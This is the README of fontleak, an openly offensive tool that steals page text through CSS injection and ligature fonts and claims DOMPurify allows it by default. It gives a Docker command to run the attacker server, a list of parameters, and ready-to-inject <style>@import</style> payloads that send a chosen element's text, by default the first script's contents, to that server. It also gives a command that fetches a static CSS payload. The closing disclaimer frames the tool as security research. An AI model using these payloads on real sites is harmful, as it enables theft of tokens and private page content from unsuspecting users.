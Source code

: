 [![License](https://img.shields.io/badge/License-MIT-blue.svg)](https://opensource.org/licenses/MIT)
[![GitHub release (latest by date)](https://img.shields.io/github/v/release/adrgs/fontleak)](https://github.com/adrgs/fontleak/releases)
[![GitHub stars](https://img.shields.io/github/stars/adrgs/fontleak)](https://github.com/adrgs/fontleak/stargazers)
[![GitHub forks](https://img.shields.io/github/forks/adrgs/fontleak)](https://github.com/adrgs/fontleak/network/members)
[![GitHub contributors](https://img.shields.io/github/contributors/adrgs/fontleak)](https://github.com/adrgs/fontleak/graphs/contributors)
[![Follow @adragos_](https://img.shields.io/twitter/follow/adragos_?style=social)](https://twitter.com/adragos_)

<p align="center">
  <img width="400" alt="fontleak logo" src="https://github.com/user-attachments/assets/69d9b715-e9fc-4bc6-8e0c-b4126f44434e" />
</p>

# fontleak

Fast exfiltration of text using CSS and Ligatures. Works on Chrome, Firefox and Safari and is allowed by default by DOMPurify.


https://github.com/user-attachments/assets/b30ef845-3a98-471d-87d8-032cf113306f


## Getting Started

#### Using Docker

You can quickly get started with fontleak using Docker:

```bash
# Run the container
docker run -it --rm -p 4242:4242 -e BASE_URL=http://localhost:4242 ghcr.io/adrgs/fontleak:latest
```

Set the `BASE_URL` environment variable to the public URL where the site will be accessible.

> This will only setup a basic HTTP/1.1 server. Use a reverse proxy like Caddy for TLS and HTTP/2 or HTTP/3.


## Using fontleak

The fontleak URL accepts several parameters to customize its behavior:

#### Parameters
- `selector`: CSS selector that matches exactly one element in the target page. Default: `SELECTOR` env var or `script:first-of-type`
- `parent`: Parent element of the target element (options: `body` or `head`). Default: `PARENT` env var or `body`
- `alphabet`: Characters to include in the font. Default: `ALPHABET` env var or `string.printable` minus whitespace (except space)
- `timeout`: Timeout for @import url(). Default: `TIMEOUT` env var or `10` seconds
- `strip`: Strip unknown characters from the leak. Default: `true`
- `length`: Length of the leak. Default: `100`
- `prefix`: Prefix to remove (or to start counter from for Safari) for the dynamic leak. Default: empty string

#### Example Usage

Basic usage:
```html
<style>@import url("http://localhost:4242/");</style>
```

Custom selector, parent, and alphabet:
```html
<style>@import url("http://localhost:4242/?selector=.secret&parent=head&alphabet=abcdef0123456789");</style>
```

> **⚠️ Warning:** The CSS selector must match exactly one element in the target page. If the selector matches multiple elements or no elements, fontleak will fail to exfiltrate the text.

## Environment Variables

You can configure fontleak using these environment variables:

- `BASE_URL`: Base URL where the application is accessible (e.g., http://localhost:4242)
- `FASTAPI_LOGGING`: Enable or disable FastAPI logging. Default: "true"
- `SELECTOR`: CSS selector for target element. Default: "script:first-of-type"
- `PARENT`: Parent element (body or head). Default: "body"
- `ALPHABET`: Characters to include in the font. Default: string.printable minus whitespace
- `TIMEOUT`: Timeout for @import url(). Default: 10
- `LENGTH`: Length of the payload for static leaks. Default: 100

## Static payload

By default, fontleak will use [sequential import chaining](https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b) to efficiently exfiltrate text. But it's not always the case that the target page CSP allows this. 

In this case, you can use the `/static` endpoint to generate a static CSS payload that only requires lax CSP for `img-src` and `font-src`.

```bash
wget http://localhost:4242/static -O payload.css
```

Which takes these additional parameters:
- `length`: Length of the payload. Default: `LENGTH` env var or `100`
- `browser`: The browser to target. Only Chrome and Firefox are supported for now. Default: `chrome`

Instead of unique ids, fontleak will group requests by (IP, User-Agent, Referer) pairs.

## Disclaimer

fontleak is a research project intended for educational and security testing purposes only. The author is not responsible for any misuse of this software. Users are solely responsible for ensuring they have proper authorization before using this tool in any environment. Use at your own risk.

